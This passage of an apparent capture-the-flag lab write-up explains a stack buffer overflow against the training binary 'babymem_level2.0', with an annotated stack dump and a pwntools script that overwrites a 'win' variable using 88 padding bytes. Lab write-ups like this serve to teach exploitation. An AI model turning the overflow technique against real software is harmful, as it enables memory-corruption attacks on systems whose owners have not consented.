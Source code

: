 ```
	    | 0x00007fff85a4bcf0 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bcf8 (rsp+0x0078) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bd00 (rsp+0x0080) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bd08 (rsp+0x0088) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  /
            | 0x00007fff85a4bd10 (rsp+0x0090) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | /
	    | 0x00007fff85a4bd18 (rsp+0x0098) | 00 00 00 00 31 56 00 00 | 0x0000563100000000 | <------ win
	    | 0x00007fff85a4bd20 (rsp+0x00a0) | 70 cd a4 85 ff 7f 00 00 | 0x00007fff85a4cd70 |
            | 0x00007fff85a4bd28 (rsp+0x00a8) | 00 c3 81 59 29 d1 5f cb | 0xcb5fd1295981c300 |
ebp ------> | 0x00007fff85a4bd30 (rsp+0x00b0) | 70 cd a4 85 ff 7f 00 00 | 0x00007fff85a4cd70 | <------ saved ebp of previous frame
	    | 0x00007fff85a4bd38 (rsp+0x00b8) | 22 ef b6 1b 31 56 00 00 | 0x000056311bb6ef22 | <------ return address
            +---------------------------------+-------------------------+--------------------+
```
{% endcode %}

* The buffer is 87 bytes long, which means that it only covers 7 bytes out of the word at `(rsp+0x0090)`.

```
Buffer:                           Padding byte:           Win variable:

00 00 00 00 00 00 00 00           00                      00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 
```

* The buffer ends, we have a null byte and then we have our win variable.
* We have to change the value of the win variable to `0x2dbba028`.
* Let's build our payload.

```python
from pwn import *

padding = b'A' * 88
payload = padding + p64(0x2dbba028)

p = process('/challenge/babymem_level2.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```
